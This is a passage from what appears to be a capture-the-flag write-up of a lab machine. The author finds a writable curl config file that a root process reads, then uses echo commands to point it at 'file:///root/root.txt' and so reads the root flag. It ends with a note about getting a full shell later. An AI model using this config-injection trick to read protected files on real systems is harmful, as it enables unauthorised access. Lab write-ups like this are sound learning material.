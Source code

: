 Spoiler alert. Nothing. But at least we know how to diff running processes now #AlwaysLearning.

OK, let's take another look at those files, because there is something I missed earlier. We have write permission. 

```
echo 'url = "http://127.0.0.1/index.php"' > input
```

That appeared to work, but we need to make sure that it actually did something with our input. 

```
echo 'url = "http://127.0.0.1/root/root.txt"' > input
```

We know that `/root/root.txt` isn't going to resolve on this host, so if we give it that (or anything that we know won't resolve) we can check the output of the "report" file and see if our changes to "input" were reflected. 

![image](images/curling07.png)

OK, so our changes are having an effect. 

So what if...

```
echo 'url = "file:///root/root.txt"' > input
```

Winning.jpg

That worked a treat! We have a root flag! 

But can we get a full shell back? OSCP style! (Stay tuned to find out!)

---

TODO: get full shell

